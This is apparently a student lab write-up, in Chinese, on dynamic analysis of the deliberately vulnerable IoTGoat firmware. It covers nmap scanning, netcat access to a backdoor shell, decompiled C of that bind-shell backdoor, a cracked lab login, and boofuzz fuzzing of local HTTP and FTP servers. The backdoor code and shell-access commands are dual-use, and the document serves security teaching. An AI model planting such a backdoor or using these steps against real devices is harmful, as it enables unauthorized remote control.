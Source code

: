 # 第六章：物联⽹固件动态分析
---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

已知Iotgoat的地址为：`10.0.2.10`

![](./img/goat地址.png)

### 实验⼀：IoTGoat 安全分析 —— Insecure Network Services

#### 步骤⼀：扫描 TCP 端口
对iotgoat的地址进行扫描，查看其端口开放情况

```sh
nmap -p- -sT 10.0.2.10
```

![](./img/nmap扫描.png)


#### 步骤⼆：SSH (port 22)

```sh
ssh iotgoatuser@10.0.2.10
```
发现没有可用的RSA秘钥，因为从 OpenSSH 8.8 开始，基于 SHA-1 的 ssh-rsa 主机密钥算法默认被停用（原因是 SHA-1 已被认定不再安全）

![](./img/ssh登录1.png)

临时进行配置，放开 ssh-rsa

![](./img/ssh登录2.png)

连接成功

#### 步骤三：dnsmasq (port 53)

```sh
sudo nmap -sR -p 53 10.0.2.10
```

扫描查看53端口的开放情况

![](./img/nmap扫53.png)

#### 步骤四：backdoor (port 5515)

```sh
netcat 10.0.2.10 5515
```

直接使用nc去连接5515端口

![](./img/5515连接.png)

发现可以成功连接

#### （扩展）步骤四：
找到后门程序的目录位置：

![](./img/找到shellback.png)

打开Ghidra并将目标程序文件导入

![](./img/导入shellback.png)

在函数栏找到main函数后对其进行反编译，查看伪c代码：

![](./img/反编译main函数.png)


```c
void main(void)

{
  int __fd;
  __pid_t _Var1;
  int iVar2;
  undefined **ppuVar3;
  int __fd2;
  char **ppcVar4;
  socklen_t local_50;
  char *local_4c [3];
  sockaddr local_40;
  sockaddr local_30;
  undefined1 *puStack_18;
  
  puStack_18 = &stack0x00000004;
  ppuVar3 = &PTR_s_/bin/busybox_08048734;
  ppcVar4 = local_4c;
  for (iVar2 = 3; iVar2 != 0; iVar2 = iVar2 + -1) {
    *ppcVar4 = *ppuVar3;
    ppuVar3 = ppuVar3 + 1;
    ppcVar4 = ppcVar4 + 1;
  }
  local_40.sa_family = 2;
  local_40.sa_data._0_2_ = htons(0x158b);
  local_40.sa_data[2] = '\0';
  local_40.sa_data[3] = '\0';
  local_40.sa_data[4] = '\0';
  local_40.sa_data[5] = '\0';
  iVar2 = socket(2,1,0);
  bind(iVar2,&local_40,0x10);
  listen(iVar2,1);
  __fd2 = 0;
  do {
    local_50 = 0x10;
    __fd = accept(iVar2,&local_30,&local_50);
    _Var1 = fork();
    if (_Var1 != 0) {
      write(__fd,"[***]Successfully Connected to IoTGoat\'s Backdoor[***]\n",0x37);
      for (; __fd2 < 3; __fd2 = __fd2 + 1) {
        dup2(__fd,__fd2);
      }
      execve("/bin/busybox",local_4c,(char **)0x0);
      close(__fd);
    }
    close(__fd);
  } while( true );
}
```

通过分析可以看出,这段程序在本机 5515 端口建立 TCP 监听，每当有客户端连接就 fork 出父进程，将该套接字重定向到标准输入/输出/错误，随后用 execve 把进程替换为 /bin/busybox sh，从而让远端用户立即获得一个 BusyBox 交互式 shell；子进程则继续循环 accept 以保持后门常开。

#### 步骤五：telnetd (port 65534)

按照同样的过程，使⽤netcat连接到最后⼀个未知端口65534，发现它正在请求凭据。

```sh
netcat 10.0.2.10 65534
```

输入账号密码进行登录,即之前爆破出来的账号密码：

>账号：iotgoatuser
密码:7ujMko0vizxv


![](./img/65534.png)

---

### 实验⼆：使⽤ boofuzz

通过pip直接拉取库，供python代码使用：

![](./img/kalliPython环境保护机制.png)

由于保护机制，需要创建python的环境

```sh
python3 -m venv ~/.venvs/boofuzz
source ~/.venvs/boofuzz/bin/activate
```

![](./img/启动python环境.png)

接着继续安装

![](./img/可以正常安装.png)


使用vim将对应代码分别写入`ftp_simple.py`、`http_simple.py`、`http_with_body.py`这三个文件

使用http开启http服务

```sh
 python3 -m http.server
```

![](./img/开启http服务.png)

修改http fuzz的目标端口：

![](./img/http修改fuzz端口.png)

启动测试

![](./img/http_simple.png)

对于另外一个http的fuzz进行同样的修改并进行测试:

![](./img/http_with_body.png)

可以在web的26000端口查看进度信息：

![](./img/http查看web页面.png)

在开启的http服务中可以查看日志信息

![](./img/http服务器日志查看.png)

使用python开启ftp服务

```sh
python3 -m pip install --user pyftpdlib
python3 -m pyftpdlib -w -p 8021
```

![](./img/启动ftp服务.png)

![](./img/启动ftp服务2.png)

修改fuzz文件中的测试端口为8021：

![](./img/ftp端口修改.png)

开启测试

![](./img/ftp代码执行.png)

也可以在web中查看

![](./img/ftp查看web页面.png)

同样可以查看ftp的日志信息

![](./img/ftp服务器日志.png)

---

## 遇到的问题及解决方案

- kali中安装python库最好要创建python环境
- ftp服务器创建时make报错，后面选择直接使用python启动ftp服务

---